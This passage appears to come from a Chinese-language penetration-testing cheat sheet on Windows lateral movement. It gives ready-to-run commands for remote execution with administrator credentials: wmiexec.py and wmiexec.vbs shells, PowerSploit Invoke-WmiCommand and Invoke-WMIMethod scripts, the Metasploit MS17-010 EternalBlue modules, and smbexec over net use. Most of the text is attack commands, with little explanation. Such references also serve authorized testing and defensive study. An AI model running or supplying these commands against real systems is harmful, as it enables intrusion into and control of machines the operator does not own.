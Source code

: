 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>wmiexec.py administrator:password@IP<br>``` |

### [](#wmiexecvbs)wmiexec.vbs

半交互式 shell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>cscript.exe //nologo wmiexec.vbs /shell IP administrator password<br>``` |

执行单条命令

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>cscript.exe wmiexec.vbs /cmd IP administrator password "ipconfig"<br>``` |

对于运行时间较长的命令，例如 `ping`、`systeminfo`，需要加入 `-wait 5000` 命令或者更长等待时间。在运行 `nc` 等不需要输出单需要一直等待运行的进程时，需要使用 `-persist` 参数。

### [](#invoke-wmicommand)Invoke-WmiCommand

powersploit工具包中

将 `Invoke-Wmicommand.ps1` 导入系统

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```powershell<br>$User = "pentest.hacker\administrator"<br><br>$Password = ConvertTo-SecureString -String "password" -AsPlainText -Force<br><br>$Cred = New-Object -TypeName System.Management.AutoMation.PSCredential -ArgumentList $User, $Password<br><br>$Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName IP<br><br>$Remore.PayloadOutput<br>``` |

### [](#invoke-wmimethod)Invoke-WMIMethod

利用 `powershell` 自带的 `Invoke-WMIMethod` ，非交互，无回显。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```powershell<br>$User = "pentest.hacker\administrator"<br><br>$Password = ConvertTo-SecureString -String "password" -AsPlainText -Force<br><br>$Cred = New-Object -TypeName System.Management.AutoMation.PSCredential -ArgumentList $User, $Password<br><br>$Remote = Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -Credential $Cred -ComputerName IP<br>``` |

## [](#%E6%B0%B8%E6%81%92%E4%B9%8B%E8%93%9D%E6%BC%8F%E6%B4%9E)永恒之蓝漏洞

-   auxiliary/scanner/smb/smb\_ms17\_010
-   exploit/windows/smb/ms17\_010\_eternalblue

## [](#smbexec)smbexec

### [](#c-%E7%89%88%E6%9C%AC-smbexec)C++ 版本 smbexec

将 `execserver.exe` 上传到到目标系统的 `C:\Windows\` 目录下，解除 `UAC` 对命令的限制。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>net use \\IP "password" /user:pentest\administrator<br>test.exe IP administrator password whoami c$<br>``` |
